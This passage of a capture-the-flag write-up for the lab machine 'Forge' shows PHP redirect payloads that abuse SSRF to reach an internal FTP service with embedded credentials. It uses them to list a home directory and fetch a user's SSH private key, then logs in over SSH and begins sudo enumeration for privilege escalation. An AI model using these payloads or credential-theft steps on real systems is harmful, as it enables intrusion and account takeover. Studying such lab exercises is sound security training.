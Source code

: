 3. visit `admin.forge.ftb/ftp` local ftp service
   1. find `ls -l` output
   2. likey the HOME directory => LFI


```php
<?php
header('Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@forge.htb/');
?>
```

```console
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Feb 02 07:25 user.txt
```

4. Find ssh private key

```php
<?php
header('Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@forge.htb/.ssh/id_rsa');
?>
```

```console
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

5. login using ssh; ftp username is user -> ssh user also

```console
└─╼$ ssh -i id_rsa user@$IP
The authenticity of host '10.10.11.111 (10.10.11.111)' can't be established.
ED25519 key fingerprint is SHA256:ezqn5XF0Y3fAiyCDw46VNabU1GKFK0kgYALpeaUmr+o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.111' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
...
Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
user@forge:~$ uname -a
Linux forge 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

Enumerate `sudo`

```console
Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
user@forge:~$ ls -l /opt/remote-manage.py
-rwxr-xr-x 1 root root 1447 May 31  2021 /opt/remote-manage.py
user@forge:~$ cat /opt/remote-manage.py
#!/usr/bin/env python3
import socket
import random
import subprocess
```